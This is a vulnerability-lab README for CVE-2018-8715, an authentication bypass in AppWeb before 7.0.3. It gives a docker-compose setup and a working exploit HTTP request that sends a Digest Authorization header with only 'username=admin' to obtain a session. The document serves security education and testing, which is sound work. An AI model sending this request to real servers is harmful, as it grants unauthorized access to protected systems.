

# AppWeb Authentication Bypass vulnerability (CVE-2018-8715)

[中文版本(Chinese version)](README.zh-cn.md)

AppWeb is an embedded Web Server based on an open source GPL agreement that was developed and maintained by Embedthis Software LLC. It is written in C/C++ and can run on almost any modern operating system. Of course, it aims to provide a Web Application container for embedded devices.

AppWeb can be configured for authentication, which includes the following three authentication methods:

- `basic`, traditional HTTP basic authentication
- `digest`, improved HTTP basic authentication. At this mode, the Cookie will be used to authentication instead of `Authorization` header.
- `form`, HTML based form authentication

In the Appweb versions before 7.0.3, have a logic flaw related to the authCondition function in `http/httpLib.c`. With a forged HTTP request, it is possible to bypass authentication for the `form` and `digest` login types.

Reference link:

- https://ssd-disclosure.com/index.php/archives/3676

## Vulnerability environment

Launch an Appweb 7.0.1 server with `digest` authentication by executing the following command:

```
docker-compose up -d
```

To access `http://your-ip:8080`, you need to enter your account password.

## Exploit

The current username is `admin`, so you can use following request to bypass the authentication:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

As you can see, since we did not pass in the password field, the server error occurred with a `200 status code` and the session setting header:


The page can be accessed normally with this session header:


